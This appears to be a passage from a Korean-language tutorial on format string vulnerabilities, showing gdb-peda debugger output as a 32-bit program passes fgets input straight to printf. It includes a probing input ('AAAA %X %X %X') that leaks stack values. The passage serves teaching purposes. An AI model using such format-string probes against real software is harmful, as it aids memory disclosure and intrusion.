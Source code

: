 ```
EIP: 0x8048482 (<main+23>:	add    esp,0xc)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048479 <main+14>:	lea    eax,[ebp-0x14]
   0x804847c <main+17>:	push   eax
   0x804847d <main+18>:	call   0x8048340 <fgets@plt>
=> 0x8048482 <main+23>:	add    esp,0xc
   0x8048485 <main+26>:	lea    eax,[ebp-0x14]
   0x8048488 <main+29>:	push   eax
   0x8048489 <main+30>:	call   0x8048330 <printf@plt>
   0x804848e <main+35>:	add    esp,0x4
[------------------------------------stack-------------------------------------]
0000| 0xffffd5c8 --> 0xffffd5d4 ('A' <repeats 19 times>)
0004| 0xffffd5cc --> 0x14 
0008| 0xffffd5d0 --> 0xf7fb35a0 --> 0xfbad2288 
0012| 0xffffd5d4 ('A' <repeats 19 times>)
0016| 0xffffd5d8 ('A' <repeats 15 times>)
0020| 0xffffd5dc ('A' <repeats 11 times>)
0024| 0xffffd5e0 ("AAAAAAA")
0028| 0xffffd5e4 --> 0x414141 ('AAA')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, 0x08048482 in main ()
gdb-peda$ x/24x $esp
0xffffd5c8:	0xffffd5d4	0x00000014	0xf7fb35a0	0x41414141
0xffffd5d8:	0x41414141	0x41414141	0x41414141	0x00414141
0xffffd5e8:	0x00000000	0xf7e19637	0x00000001	0xffffd684
0xffffd5f8:	0xffffd68c	0x00000000	0x00000000	0x00000000
0xffffd608:	0xf7fb3000	0xf7ffdc04	0xf7ffd000	0x00000000
0xffffd618:	0xf7fb3000	0xf7fb3000	0x00000000	0x8155e276
```

널 문자를 포함하여 정확하게 20바이트만큼 사용한다. 그럼 여기서 포맷 스트링을 입력하여 취약점이 어떻게 발생하는지 확인한다.

```
[----------------------------------registers-----------------------------------]
EAX: 0xffffd5d4 ("AAAA %X %X %X\n")
EBX: 0x0 
ECX: 0x0 
EDX: 0xf7fb487c --> 0x0 
ESI: 0xf7fb3000 --> 0x1b1db0 
EDI: 0xf7fb3000 --> 0x1b1db0 
EBP: 0xffffd5e8 --> 0x0 
ESP: 0xffffd5d0 --> 0xffffd5d4 ("AAAA %X %X %X\n")
EIP: 0x8048489 (<main+30>:	call   0x8048330 <printf@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048482 <main+23>:	add    esp,0xc
   0x8048485 <main+26>:	lea    eax,[ebp-0x14]
   0x8048488 <main+29>:	push   eax
=> 0x8048489 <main+30>:	call   0x8048330 <printf@plt>
   0x804848e <main+35>:	add    esp,0x4
   0x8048491 <main+38>:	mov    eax,0x0
   0x8048496 <main+43>:	leave  
   0x8048497 <main+44>:	ret
Guessed arguments:
arg[0]: 0xffffd5d4 ("AAAA %X %X %X\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffd5d0 --> 0xffffd5d4 ("AAAA %X %X %X\n")
0004| 0xffffd5d4 ("AAAA %X %X %X\n")
0008| 0xffffd5d8 (" %X %X %X\n")
0012| 0xffffd5dc ("%X %X\n")
0016| 0xffffd5e0 --> 0xf7000a58 
```
